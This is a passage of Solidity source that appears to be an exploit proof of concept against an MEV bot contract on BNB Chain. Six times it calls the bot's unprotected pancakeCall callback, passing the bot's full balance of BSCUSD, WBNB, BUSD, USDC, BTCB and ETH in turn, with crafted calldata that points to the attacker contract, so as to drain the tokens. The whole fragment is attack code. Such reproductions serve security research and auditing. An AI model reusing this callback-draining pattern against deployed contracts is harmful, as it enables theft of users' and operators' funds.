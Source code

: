```solidity
        bytes memory data01 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), BSCUSD_balance, 0, data01);

        // 02
        (token0, token1) = (address(WBNB), address(WBNB));
        uint256 WBNB_balance = WBNB.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data02 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), WBNB_balance, 0, data02);

        // 03
        (token0, token1) = (address(BUSD), address(BUSD));
        uint256 BUSD_balance = BUSD.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data03 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), BUSD_balance, 0, data03);

        // 04
        (token0, token1) = (address(USDC), address(USDC));
        uint256 USDC_balance = USDC.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data04 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), USDC_balance, 0, data04);

        // 05
        (token0, token1) = (address(BTCB), address(BTCB));
        uint256 BTCB_balance = BTCB.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data05 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), BTCB_balance, 0, data05);

        // 06
        (token0, token1) = (address(ETH), address(ETH));
        uint256 ETH_balance = ETH.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data06 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), ETH_balance, 0, data06);

        console.log();
```